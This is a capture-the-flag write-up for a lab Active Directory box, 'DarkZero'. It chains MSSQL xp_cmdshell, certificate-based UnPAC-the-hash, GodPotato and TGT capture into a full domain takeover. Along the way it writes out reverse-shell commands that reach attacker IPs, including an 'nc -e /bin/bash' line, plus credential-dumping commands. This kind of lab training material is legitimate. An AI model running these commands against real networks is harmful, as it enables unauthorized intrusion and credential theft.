Darkzero Write-Up

DarkZero is a Windows Active Directory box that is designed to test your skills and knowledge of Active Directory services. First it starts off with logging into the MSSQL server and using the linked server that has cmdshell access to the server. We get a reverse shell and found a GPO backup file. Within the contents of the GPO backup file shows our current user has SeImpersonatePrivilege but we have a restricted token. We enroll our user into the User Template and perform UnPAC-the-hash to get the users hash. We run RunasCs to get a shell as the user without a restricted token. We are able to abuse the Privilege to reset the administrator password and log in as administrator. We know we are in a forest network and so to compromise the DC01 we need to corhorce the DC01$ computer account to DC02 which we will get the TGT for DC01$ which allows us to dump the ntds.dit file and perfomring pass the hash to log into the DC01 as administrator thus fully compromising the domain.
Enumeration
Nmap Scan
# Nmap 7.95 scan initiated Sun Oct 5 22:04:06 2025 as: /usr/lib/nmap/nmap --privileged -sV -sC -p- -oN DarkZero.scan 10.10.11.89 Nmap scan report for 10.10.11.89 Host is up (0.070s latency). Not shown: 65512 filtered tcp ports (no-response) PORT STATE SERVICE VERSION 53/tcp open domain Simple DNS Plus 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=DC01.darkzero.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:, DNS:DC01.darkzero.htb | Not valid before: 2025-07-29T11:40:00 |_Not valid after: 2026-07-29T11:40:00 445/tcp open microsoft-ds? 464/tcp open kpasswd5? 593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=DC01.darkzero.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1: , DNS:DC01.darkzero.htb | Not valid before: 2025-07-29T11:40:00 |_Not valid after: 2026-07-29T11:40:00 1433/tcp open ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM | ms-sql-ntlm-info: | 10.10.11.89:1433: | Target_Name: darkzero | NetBIOS_Domain_Name: darkzero | NetBIOS_Computer_Name: DC01 | DNS_Domain_Name: darkzero.htb | DNS_Computer_Name: DC01.darkzero.htb | DNS_Tree_Name: darkzero.htb |_ Product_Version: 10.0.26100 |_ssl-date: 2025-10-06T09:10:11+00:00; +7h00m00s from scanner time. | ms-sql-info: | 10.10.11.89:1433: | Version: | name: Microsoft SQL Server 2022 RTM | number: 16.00.1000.00 | Product: Microsoft SQL Server 2022 | Service pack level: RTM | Post-SP patches applied: false |_ TCP port: 1433 | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback | Not valid before: 2025-10-06T06:38:05 |_Not valid after: 2055-10-06T06:38:05 2179/tcp open vmrdp? 3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=DC01.darkzero.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1: , DNS:DC01.darkzero.htb | Not valid before: 2025-07-29T11:40:00 |_Not valid after: 2026-07-29T11:40:00 |_ssl-date: TLS randomness does not represent time 3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=DC01.darkzero.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1: , DNS:DC01.darkzero.htb | Not valid before: 2025-07-29T11:40:00 |_Not valid after: 2026-07-29T11:40:00 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-server-header: Microsoft-HTTPAPI/2.0 |_http-title: Not Found 9389/tcp open mc-nmf .NET Message Framing 49664/tcp open msrpc Microsoft Windows RPC 49666/tcp open msrpc Microsoft Windows RPC 49682/tcp open msrpc Microsoft Windows RPC 49683/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0 49905/tcp open msrpc Microsoft Windows RPC 49931/tcp open msrpc Microsoft Windows RPC 49967/tcp open msrpc Microsoft Windows RPC 50550/tcp open msrpc Microsoft Windows RPC 50673/tcp open msrpc Microsoft Windows RPC Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: | smb2-security-mode: | 3:1:1: |_ Message signing enabled and required |_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s | smb2-time: | date: 2025-10-06T09:09:32 |_ start_date: N/A Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Sun Oct 5 22:10:11 2025 -- 1 IP address (1 host up) scanned in 364.18 seconds
We can see there is mssql which our user has access to. We can authenticate via windows authentication.
impacket-mssqlclient john.w:'RFulUtONCOL!'@10.10.11.89 -windows-auth
We can check for linked servers which shows us a server called DC02.darkzero.ext
SQL (darkzero\john.w guest@master)> enum_links
SRV_NAME SRV_PROVIDERNAME SRV_PRODUCT SRV_DATASOURCE SRV_PROVIDERSTRING SRV_LOCATION SRV_CAT
----------------- ---------------- ----------- ----------------- ------------------ ------------ -------
DC01 SQLNCLI SQL Server DC01 NULL NULL NULL
DC02.darkzero.ext SQLNCLI SQL Server DC02.darkzero.ext NULL NULL NULL
Linked Server Local Login Is Self Mapping Remote Login
----------------- --------------- --------------- ------------
DC02.darkzero.ext darkzero\john.w 0 dc01_sql_svc
We can see there is DC01 and DC02.darkzero.ext servers. This also indicates that we are in a forest network. Connecting to the DC02.darkzero.ext server we can enable cmdshell access to the server.
SQL (darkzero\john.w guest@master)> use_link [DC02.darkzero.ext]
SQL >[DC02.darkzero.ext] (dc01_sql_svc dbo@master)> enable_xp_cmdshell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL >[DC02.darkzero.ext] (dc01_sql_svc dbo@master)> xp_cmdshell whoami
This shows us we are running as svc_sql user. Let's get a reverse shell. One method I prefer is to execute a reverse base64 powershell script in memory from revshells https://www.revshells.com/

Now in the C:\ there is a file called Policy_Backup.inf which is a group policy object backup file. One particular line stands out which is the SeImpersonatePrivilege because it shows the SID for the group NT SERVICE\SERVICE and NT SERVICE\MSSQLSERVER which the MSSQLSERVER is apart of the SERVICE group. It runs under it. We can see the SID matches to the SID in SeImpersonatePrivilege The reason We dont have the privilege enabled or shows up is because our token is restricted from executing commands with xp_cmdshell which is common in order to not abuse the dangerous GPOs. To bypass this we will need to get a shell via a password or hash of the user svc_sql


I will use a tool called Sharphound to enumerate the domain which shows us that the user svc_sql can enroll into the User Template.

The pathway I see in this is taking advantage enrolling into the User template which will give us a pem file then convert it into a pfx file and extract the hash from the pfx file allowing us to change the password for the svc_sql with the hash. After we can run RunasCs to catch a reverse shell and we should have the full permissions of svc_sql which contains SeImpersonatePrivilege
We need to find the CA name. We will use the tool called Certify
.\Certify find /currentuser

Now we can start to request to enroll into the User template.
.\Certify.exe request /ca:DC02.darkzero.ext\darkzero-ext-DC02-CA /template:User


Copy the RSA and Certificate keys into the same file in this case named cert.pem then we convert the pem file into a pfx file. Make sure to press enter to skip the password.
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Once converted we will transfer the pfx file onto the victim machine. We then can run Rubeus to request a TGT and extract the ntlm hash.
.\Rubeus.exe asktgt /user:svc_sql /domain:darkzero-ext /dc:DC02.darkzero.ext /getcredentials /certificate:C:\Users\svc_sql\cert.pfx

We got the ntlm hash but how does this actually work?
Instead of using traditional password-based Kerberos or NTLM authentication, we leverage PKINIT certificate-based initial authentication.We send an AS-REQ (Authentication Service Request) with PKINIT pre-authentication data, signed using the private key from our enrolled PFX file.
The Domain Controller (KDC) validates the certificate by:
- Checking the subject (CN or UPN) matches the target user account (svc_sql).
- Verifying the certificate chain back to a trusted Enterprise CA.
- Confirming the certificate includes the Client Authentication Extended Key Usage (EKU).
If everything checks out, the KDC treats this as valid strong authentication and issues us a TGT (Ticket-Granting Ticket) without ever needing the account's password. Now, with the TGT in hand, we send a special TGS-REQ (Ticket-Granting Service Request) in User-to-User (U2U) mode triggered in Rubeus via the /getcredentials flag. In U2U, the client includes the TGT and asks the KDC for additional encrypted credential information about the user. For backward compatibility with legacy systems, Microsoft's KDC includes the user's current NTLM hash (RC4-HMAC key) in this response.
This credential blob is encrypted using the session key established during the original TGT exchange. Since we successfully completed PKINIT, we possess that session key so Rubeus can decrypt the blob and extract the real NTLM hash.
(This technique is commonly known as UnPAC-the-hash via PKINIT.)
You (attacker)
│
├── Enroll in "User" template → get PFX (cert + private key)
│
├── AS-REQ + PKINIT (signed with private key)
│ ↓
DC (KDC)
Validates cert → issues TGT + session key
│ ↑
└── Receive TGT
│
├── TGS-REQ (U2U mode) + include TGT → request credentials
│ ↓
DC
Returns encrypted blob containing NTLM hash
│ ↑
└── Decrypt blob with session key → NTLM hash extracted!
Since we got the ntlm hash we need to set up ligolo-ng to be able to reach the dc host from our machine. I will not show how to set up ligolo-ng in this write up. Once we have ligolo-ng set up we can use one of impacket's scripts called changepasswd.py which will change the password of svc_sql
changepasswd.py svc_sql@172.16.20.2 -hashes :816CCB849956B531DB139346751DB65F

Now we need to use RunasCs.exe to catch a reverse shell.
.\RunasCs.exe "svc_sql" "Pixel123" powershell.exe -r 10.10.14.95:2222 -l 5 -b "nc -e /bin/bash 10.8.5.55 4444"
As you can see we do have the privilege enabled for svc_sql

Now we can use godpotato to exploit the privilege and reset the administrator password. I have tried to get a reverse shell in powershell but it all failed to establish a connection.
.\Godpotato.exe -cmd "cmd /c net user administrator Pixel123@"
.\RunasCs.exe "Administrator" "Pixel123@" powershell -r 10.10.14.95:3434

With the user as administrator and powershell shell we can find if unconstrained delegation is enabled.
Get-ADComputer -Filter 'TrustedForDelegation -eq $true' -Properties TrustedForDelegation | Select-Object Name, DistinguishedName, TrustedForDelegation

The DC02 has delegation enabled, the dc by default comes with this enabled. Now how can we abuse this? typically this would be useless since we already basically compromised the DC but we are in a forest and we need to compromise the DC01 not DC02. In this case we can coerce the DC01 to DC02 via mssql which we will capture the TGT for DC01$ account which we can dump the ntds.dit.
On the administrator we need to run rubeus.exe
.\Rubeus.exe monitor /nowrap /interval:5
Then on another terminal log into mssql and run this command.
xp_dirtree \\DC02.darkzero.ext\doesnotexit


Copy the TGT into a file which I will name the file file It is in base64 so we need to decode it and put it into a new file.
cat file | base64 -d > ticket.kirbi
Then we need to convert it from kirbi to ccache for linux use.
ticketConverter.py ticket.kirbi dc01.ccache
Now we need to import the dc01.ccache
export KRB5CCNAME=/home/pixelrazer/htb/dc01.ccache
secretsdump.py -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb' -just-dc-user administrator

Now we can winrm as administrator to DC01
